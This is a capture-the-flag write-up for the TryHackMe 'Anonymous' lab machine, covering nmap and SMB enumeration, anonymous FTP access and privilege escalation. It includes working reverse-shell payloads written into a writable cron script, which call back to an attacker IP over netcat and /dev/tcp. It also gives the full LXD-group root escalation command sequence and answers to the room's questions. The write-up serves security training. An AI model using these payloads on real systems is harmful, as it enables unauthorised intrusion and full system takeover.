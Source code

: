 # TryHackMe - Anonymous - Linux

- [Room](https://tryhackme.com/room/anonymous)

## Nmap

```
┌──(root💀kali)-[~/Documents/tryhackme/anonymous]
└─# nmap -T4 -sC -sV -O -p- 10.10.55.112                                                                                                                                                                                               130 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-30 17:28 EDT
Stats: 0:04:57 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.59% done; ETC: 17:41 (0:07:53 remaining)
Stats: 0:08:17 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 55.55% done; ETC: 17:43 (0:06:38 remaining)
Nmap scan report for 10.10.55.112
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.22.56
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/30%OT=21%CT=1%CU=34181%PV=Y%DS=4%DC=I%G=Y%TM=62BE199
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2022-06-30T21:45:44
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-06-30T21:45:44+00:00

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1039.43 seconds
```

## SMB

```
┌──(root💀kali)-[~]
└─# smbclient -L \\10.10.55.112
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```

## FTP

- According to our nmap We are allowed to login as anonymous. It does work  
![image](https://user-images.githubusercontent.com/96747355/176789590-00febf49-a0d5-45f4-80c5-79ca143bd02f.png)  
- Here are the files we can download in our machine for further examination  
![image](https://user-images.githubusercontent.com/96747355/176789837-68e01438-4c77-4b90-bf71-b22e6bfb1232.png)  
- Here is the content of the files  
![image](https://user-images.githubusercontent.com/96747355/176790036-bf157c8f-6b52-4e8b-97ae-d518d19a708a.png)  
- It seems like we are allowed to write in the clean.sh file. Also if we check multiple times the scripts folder we can see that the log file is regurlarly updated. It is worth modifyin the script and try to get a reverse shell with it.  
![image](https://user-images.githubusercontent.com/96747355/176791076-258219c8-e3fa-48d4-90c4-677bf7912a2f.png)
- In the picture above we can see that the second ls shows that the log file is bigger and the time is later
- Let's try to modify the clean script with this 
```
#!/bin/bash

netcat 10.13.22.56 4444 -e /bin/bash
```
- We set our listener `rlwrap nc -lvnp 4444`
- We transfer the new file  
![image](https://user-images.githubusercontent.com/96747355/176791697-6d3b82f9-82fd-4720-bbcf-2996cfa89627.png)
- So nothing happens with this. If we check the hint it mentions unexpected results with netcat.
- Let's try with bash instead of netcat `bash -i >& /dev/tcp/10.13.22.56/4444 0>&1` and put the new file in the scripts folder in the ftp  
- We get a shell as the user `namelessone` after a minute or so    
![image](https://user-images.githubusercontent.com/96747355/176949498-db6076e6-9025-4dd3-87f8-86998e37237c.png)  
- We can grab the user flag

## Privilege escalation

- Let's get linpeas in our target `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`
- `python3 -m http.server 80`
- From our target `wget http://10.13.22.56/linpeas.sh` and `chmod +x linpeas.sh`
- We are part of interesting groups such as lxd sudo and adm. However sudo -l does not give anything back. Let's try to abuse lxd and follow [this article](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/) 
- To summarize here are the commands I ran (using the blog post as reference)

```
# From my kali
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
sudo ./build-alpine
# Setup HTTP server to host the image
python3 -m http.server 80
# From the target
wget http://10.13.22.56/alpine-v3.16-x86_64-20220701_1459.tar.gz
mv alpine-v3.16-x86_64-20220701_1459.tar.gz alpine.tar.gz
lxc image import ./alpine.tar.gz --alias myimage
lxd init 
# we push enter to all the prompts to keep default setup
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```
- It works, we are root  
![image](https://user-images.githubusercontent.com/96747355/176962259-df97417d-b029-4cba-8fc8-23d738145dc2.png)  
- We can grab the last flag. We need to access to the point where the system is mounted `cd /mnt/root` and we grab the flag `cat root/root.txt`!  

## Questions

1. Enumerate the machine.  How many ports are open? `4`
2. What service is running on port 21? `ftp`
3. What service is running on ports 139 and 445? `smb`
4. There's a share on the user's computer.  What's it called? `pics`
- I let you find the flags :) 
